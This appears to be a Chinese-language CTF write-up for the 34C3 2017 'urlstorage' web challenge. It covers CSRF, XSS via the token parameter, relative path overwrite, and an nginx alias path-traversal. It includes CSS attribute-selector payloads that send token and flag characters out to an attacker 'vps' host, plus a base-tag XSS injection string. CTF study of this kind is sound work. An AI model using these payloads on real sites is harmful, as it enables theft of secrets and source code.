


# 34c3-2017-urlstorage

对题目稍微测试可以发现:
* `/urlstorage` 页面修改 url 存在 CSRF
* `/flag?token={xss}` 页面 token 参数存在 XSS，最多 64 个字符，获取 flag 只依赖前 32 位
* `/contact` 页面发送参数给 admin，用于攻击

同时站点存在 CSP
```
Content-Security-Policy: frame-ancestors 'none'; form-action 'self'; connect-src 'self'; script-src 'self'; font-src 'self' ; style-src 'self';
```

`frame-src` 和 `default-src` 未定义，因此站点可以加载任意 iframe

## rpo

因为整个站点是 django 写的，页面通过路由实现，因此在后面加入什么路径，返回的页面都与 `/urlstorage` 一样

```
http://127.0.0.1:8012/urlstorage/random_str/123 = http://127.0.0.1:8012/urlstorage
```

然后发现页面采用相对路径导入 CSS，存在 rpo 漏洞

```html
<link href="static/css/milligram.min.css" type="text/css" rel="stylesheet" media="screen,projection">
```

因此访问 `http://127.0.0.1:8012/urlstorage/random_str/123` 时，加载的 CSS 文件为 `http://127.0.0.1:8012/urlstorage/random_str/123/static/css/milligram.min.css`，后面全部被路由处理忽略，返回 urlstorage 页面的源码



页面源码被当作 CSS 加载，url 可控，我们便可以控制页面内容

这里有个 trick(摘自 Lorexxar 师傅博客)：
> CSS 在加载的时候与 JS 一样是逐行解析的，不同的是 CSS 会忽略页面中不符合 CSS 语法的行

尝试 POST `url=%0a{}%0a*{color:red}` 触发 rpo



## 获取 token
可以通过 css 选择器去匹配网页链接中的内容，结合 rpo 外带数据

```
a[href^=flag\?token\=0]{background: url(//vps/rpo/logging.php?c=0);}
a[href^=flag\?token\=f]{background: url(//vps/rpo/logging.php?c=f);}
..
a[href^=flag\?token\=10]{background: url(//vps/rpo/?c=10);}
a[href^=flag\?token\=11]{background: url(//vps/rpo/?c=11);}
..
```

在 VPS 上写入如下功能的 PoC：
1. 生成利用 CSRF 修改 admin 的 url 为 css payload 的表单
2. 提交表单到 `/urlstorage/rpo`，触发 css payload
3. 循环获取 32 位 token

这里有一个坑，由于 css 选择器在匹配的时候， 如果 value 值首字符是数字，就不会将 value 当做合法字符串，必须加双引号。
而 token 开头的字符可能为数字，flag 开头也为 34c3，单/双引号均被编码，因此都需要用其他方法生成 payload：
```
以获取 flag 为例
1. 使用css的*模糊匹配

#flag[value*=C3_1]{background: url(http://vps/?flag=C3_1);}

* 号选择器代表这属性中包含这个字段，由于flag中有_存在，所以不会对flag的获取有影响

2. 使用16进制编码

#flag[value^=\33\34\43\33]{background: url(http://vps/?flag34c3);}
```

虽然这里 `XSS-Protection=1`，但 admin 是运行在 phantomjs 上，因此应该不会有 XSS Auditor

## 获取 flag
flag 保存在一个 name 为 flag 的 textbox，同样利用 css 带出数据

payload
```
#flag[value*=C3_0]{background: url(http://vps?flag=C3_0);}
#flag[value*=C3_1]{background: url(http://vps?flag=C3_1);}
...
#flag[value*=C3_f]{background: url(http://vps?flag=C3_f);}
```

但是由于 flag 在 `/flag` 页面下，而 css 触发 rpo 是在 `/urlstorage` 页面下

这里有个知识点：
> 在浏览器处理相对路径时，一般情况是获取当前 url 的最后一个 / 前作为 base url，但如果页面中给出了 base 标签，那么就会读取 base 标签中的 url 作为 base url。

因此我们可以通过 XSS 注入 `/flag?token=06b05e82a2e5443d36d3cc34007fb8a6</title><base/href=/urlstorage/rpo>`，让 `/flag` 页面导入的 css 路径为 `/urlstorage/rpo/static/css/milligram.min.css`

官方 [PoC](exploit.php)

然后在 contact 页面提交 url  `http://127.0.0.1/flag?token=</title><iframe/src=vps/exploit.php`，一段时间后访问 `http://vps/exploit.php?flag2` 获得 flag

## 非预期
题目用了 nginx 做反向代理，其中静态文件目录配置如下

```c
 location /static {
     alias /app/urlstorage/static/;
 }
```

存在目录穿越漏洞（漏洞详情戳 [三个案例看 Nginx 配置安全](https://www.leavesongs.com/PENETRATION/nginx-insecure-configuration.html))

访问 `http://127.0.0.1:8012/static../views.py` 获得源码，直接 `/static../templates/flag.html` 获得 flag

## References
[34C3 CTF 2017 – URLSTORAGE WRITEUP](https://l4w.io/2017/12/34c3-ctf-2017-urlstorage-writeup/)

[34c3 Web部分Writeup](https://lorexxar.cn/2018/01/02/34c3-writeup/)

[【技术分析】RPO攻击技术浅析](http://blog.nsfocus.net/rpo-attack/)
